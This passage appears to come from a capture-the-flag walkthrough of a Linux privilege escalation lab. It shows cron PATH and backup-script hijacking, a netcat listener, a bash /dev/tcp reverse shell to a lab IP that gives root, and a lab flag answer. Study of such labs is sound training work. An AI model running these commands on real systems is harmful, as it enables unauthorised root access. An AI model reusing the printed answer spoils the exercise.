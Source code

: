 ```
If the full path of the script is not defined (as it was done for the backup.sh script), cron will refer to the paths listed under the PATH variable in the ```/etc/crontab``` file. In this case, we should be able to create a script named “antivirus.sh” under our user’s home folder and it should be run by the cron job.



The file on the target system should look familiar:

![img](/assets/img/lpe47.png)


The incoming reverse shell connection has root privileges:

![img](/assets/img/lpe48.png)

In the odd event you find an existing script or task attached to a cron job, it is always worth spending time to understand the function of the script and how any tool is used within the context. For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature.

---

1. How many user-defined cron jobs can you see on the target system?
Step 1 - Check the current cron jobs

```
cat /etc/crontab
```

- Check Karen's access on backup.sh cron job. 

```
ls -la /home/karen/backup.sh
```

Step 2 - setup a listener on the Attacker machine

```
nc -lvnp 4545
```

Step 3 - edit Karen's backup.sh cron job as reverse shell

```
cd /home/karen
nano backup.sh
```

![img](/assets/img/lpe49.png)

```
chmod +x backup.sh
bash -l >& /dev/tcp/10.10.213.76/4545 0>&1
```



2. What is the content of the flag5.txt file?
   Answer: THM-383000283


3. What is Matt's password?

```
cat /etc/psswd
